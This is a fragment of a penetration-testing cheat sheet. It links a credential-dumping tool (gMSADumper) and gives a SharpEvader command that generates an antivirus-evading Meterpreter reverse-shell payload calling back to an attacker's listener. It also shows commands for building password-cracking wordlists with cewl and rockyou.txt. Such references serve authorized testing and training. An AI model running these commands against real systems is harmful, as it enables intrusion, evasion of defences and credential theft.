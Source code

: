 [https://github.com/micahvandeusen/gMSADumper](https://github.com/micahvandeusen/gMSADumper)
#### SharpEvader

[https://github.com/Xyan1d3/SharpEvader](https://github.com/Xyan1d3/SharpEvader)

```bash
python3 sharpevader.py -p windows/x64/meterpreter/reverse_tcp -lh tun0 -lp 9001
```

---

# Wordlists

## seclists
- seclists : https://github.com/danielmiessler/SecLists
- rockyou.txt

#### Make a wordlists out of a website

```bash
cewl -w wordlists.cewl $website -d 3
```

#### Make lower/upper case wordlist

```bash
cat wordlist.cewl | tr '[:upper:]' '[:lower:]' >> wordlists.cewl
```

#### Sort a wordlist

```bash
cat wordlists.cewl | sort -u > sorted.lst
```
